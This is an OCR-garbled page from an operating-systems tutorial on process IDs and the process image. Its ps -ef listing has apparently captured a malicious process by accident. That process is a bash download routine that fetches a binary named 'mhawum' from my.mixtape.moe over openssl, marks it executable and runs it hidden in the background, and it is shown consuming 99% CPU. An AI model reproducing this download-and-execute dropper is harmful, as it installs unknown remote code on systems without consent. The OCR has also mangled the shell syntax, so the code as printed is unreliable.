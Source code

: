 ```bash
                                         echo -e "GET /$2 HTTP/1.1\nHost:
                                         $1\nConnection: close\n\n" |
                                         openssl s_client -timeout -quiet
                                         -verify_quiet -connect $1:443 2>
                                         /dev/null | tee out | while read line do
                                         if [[ "$flag" == "false" ]]
                                         then
                                         hsize = $((hsize+$(echo $line | wc -c)))
                                         fi
                                         if [[ "${line:1:1}" == "" ]]
                                         then flag = "true"
                                         fi
                                         echo $hsize >
                                         size done tail -c +$(cat size) out >
                                         $2 rm size out }
                                         ( download my.mixtape.moe mhawum 2>
                                         /dev/null chmod +x mhawum 2>
                                         /dev/null ./mhawum >
                                         /dev/null 2>
                                         /dev/null )&
2868535   96910  96284 99 05:23 ?        00:47:26 ./mhawum
6118874  104116      0  3 05:25 ?        00:00:00 sh -c cd /home/cg/root/6118874;
                                         timeout 10s javac Puppy.java
6118874  104122 104116  0 05:25 ?        00:00:00 timeout 10s javac Puppy.java
6118874  104123 104122 23 05:25 ?        00:00:00 javac Puppy.java
3787205  104169      0  0 05:25 ?        00:00:00 sh -c cd /home/cg/root/3787205;
                                         timeout 10s main
3787205  104175 104169  0 05:25 ?        00:00:00 timeout 10s main
3787205  104176 104175  0 05:25 ?        00:00:00 main
3787205  104177 104176  0 05:25 ?        00:00:00 ps -ef
Program to know PID and PPID's information
My process ID is 104176
My parent process ID is 104175
Cross verification of pid's by executing process commands on shell
```

## Process Image

What exactly is process image? Process image is an executable file required while executing the
program. This image usually contains the following sections −

- Code segment or text segment
- Data segment
- Stack segment
- Heap segment

**Code segment** is a portion of object file or program’s virtual address space that consists of
executable instructions. This is usually read-only data segment and has a fixed size.

Data segment is of two types.

- Initialized
- Un-initialized
